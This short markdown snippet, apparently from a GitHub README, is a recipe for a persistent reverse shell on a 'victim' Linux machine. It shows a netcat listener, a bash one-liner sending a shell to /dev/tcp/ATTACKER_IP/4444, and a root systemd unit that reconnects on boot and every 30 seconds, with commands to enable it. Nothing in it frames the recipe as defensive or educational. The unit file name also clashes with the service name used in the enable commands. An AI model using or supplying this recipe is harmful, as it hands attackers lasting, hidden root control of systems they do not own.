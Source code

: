 ### on server side which is reciever 
```
nc -lvp 4444
```

### on victim side

```
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```


### on victim > /etc/systemd/system/yourcustomname.service

```
[Unit]
Description=Reverse Shell Service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attackerip/4444 0>&1'
Restart=always
RestartSec=30

[Install]
WantedBy=multi-user.target
```

```
sudo systemctl daemon-reload
```

```
sudo systemctl start reverse-shell.service
sudo systemctl enable reverse-shell.service
```




